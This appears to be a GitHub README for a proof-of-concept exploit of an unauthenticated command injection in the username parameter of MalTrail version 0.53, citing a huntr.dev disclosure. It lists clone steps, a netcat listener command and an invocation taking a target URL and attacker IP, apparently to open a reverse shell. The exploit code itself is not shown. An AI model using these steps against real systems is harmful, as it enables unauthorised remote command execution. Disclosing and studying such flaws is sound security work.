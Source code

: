 # MalTrail - Command Injection / RCE

MalTrail - Command Injection / RCE PoC Exploit

![alt text](https://rvizx.github.io/maltrail-rce/img.png?raw=true)

MalTrail version `0.53` doesn't have proper validation in `username` parameter, which leads to unauthenticated command injection.

# usage

```
git clone https://github.com/rvizx/maltrail-rce
cd maltrail-rce
chmod +x exploit.sh 
```

make sure to start a listener before executing the exploit.sh 

```
nc -lvnp 1337
```

```
./exploit.sh <target_url> <attacker_ip>
```

# notes

https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
